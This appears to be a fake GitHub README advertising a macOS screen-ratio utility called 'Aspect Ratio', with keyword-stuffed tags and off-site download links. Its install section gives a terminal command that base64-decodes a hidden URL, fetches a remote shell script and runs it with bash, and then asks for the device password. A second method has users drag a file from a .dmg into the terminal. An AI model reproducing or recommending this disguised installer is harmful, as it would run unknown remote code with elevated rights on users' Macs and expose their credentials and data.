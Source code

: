 # Aspect Ratio – Screen Utility for macOS Displays

![Aspect Ratio macOS](https://i.ytimg.com/vi/tPOwzTww_Xo/maxresdefault.jpg)

## 📥 Download Aspect Ratio for macOS

[![⬇️ Download Aspect Ratio](https://img.shields.io/badge/Download-Aspect%20Ratio%20Mac-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/Aspect)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Aspect Ratio?

Aspect Ratio is a lightweight utility for macOS that allows users to identify and work with exact screen ratios across MacBook, iMac, and external displays. Whether you're designing, editing video, or just optimizing workspace layout, it ensures you know your display’s pixel-perfect dimensions and ratio in real time.

The app provides a clear breakdown of your current resolution and automatically calculates the width-to-height proportion. It's especially useful for content creators who need to match output to target devices, from 16:9 YouTube videos to 4:3 presentations or ultra-wide monitors.

Aspect Ratio supports all common Apple screen formats — from MacBook Air to 5K iMacs — and works natively on Intel and Apple Silicon (M1/M2/M3) machines.

[![⬇️ Download Aspect Ratio](https://img.shields.io/badge/Download-Aspect%20Ratio%20Mac-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/Aspect)

---

![Aspect Ratio App UI](https://i.sstatic.net/fPjTB.png)

---

## ⚙️ Key Features

- 🧮 Real-Time Aspect Ratio – Instantly displays width-to-height ratio  
- 🖥️ Multi-Screen Support – Works with internal and external monitors  
- 🧭 Resolution Info – Detects current resolution, refresh rate, and DPI  
- 📐 Design Ready – Helps align layouts for video, UI/UX, and presentations  
- 💡 Lightweight & Fast – Simple utility with minimal system load  
- 💻 Optimized for macOS – Compatible with Monterey, Ventura, Sonoma  
- 🧠 Easy to Use – Clean, no-clutter user interface  
- 🧲 Snaps to Resolutions – Useful when adjusting scaled resolutions  
- 🔄 Live Updates – Reflects changes when resolution is switched  

---

## ✅ Compatible Devices

- MacBook Air (all sizes)  
- MacBook Pro 13 / 14 / 16 inch  
- iMac Retina & 4.5K / 5K  
- Mac mini / Mac Studio with external monitors  
- Thunderbolt / HDMI / DisplayPort connected screens  

---

## 📦 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

aspect ratio macbook pro, aspect ratio of macbook pro, imac aspect ratio, imac screen ratio, mac screen aspect ratio, aspect ratio mac, macbook ratio, 13 inch macbook pro aspect ratio, aspect ratio macbook air, aspect ratio macbook pro 13, aspect ratio of macbook air, aspect ratio of macbook pro 13, imac 2021 aspect ratio, imac display ratio, imac screen aspect ratio, aspect ratio mac download
